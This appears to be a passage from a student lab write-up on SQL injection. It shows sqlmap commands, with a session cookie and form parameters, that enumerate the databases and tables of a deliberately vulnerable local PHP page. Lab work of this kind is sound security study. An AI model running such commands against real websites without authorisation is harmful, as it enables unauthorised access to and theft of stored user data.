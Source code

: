 In the payload, you should have all information that you've sent in Edit Profile session.

## 4. Now use sqlmap to find all available databases:

Now open sqlmap in command prompt, your input have the following form:

`python sqlmap.py -u "url" --cookie="user_cookie" --data="payload_data" --dbs `

In my case, the command could be:

```sh
py sqlmap.py -u "http://localhost:3128/unsafe_edit_backend.php?NickName=Huy&Email=huy%40gmail.com&Address=1111&PhoneNumber=0829174988&Password=huy" --cookie="PHPSESSID=lq8dlk5c5o88k1gejsr5k04jc9; security=medium" --dbs
```

![dbs](./img/2_dbs.png)

Conclusion: You can use sql to extract databases from vulnarable database/website.

**Question 2**: Use sqlmap to get tables, users information\
**Answer 2**:

## 5. Use sql map to find all tables and user information:

```sh
py sqlmap.py -u "http://localhost:3128/unsafe_edit_backend.php?NickName=Huy&Email=huy%40gmail.com&Address=1111&PhoneNumber=0829174988&Password=huy" --cookie="PHPSESSID=lq8dlk5c5o88k1gejsr5k04jc9; security=medium" --tables
```
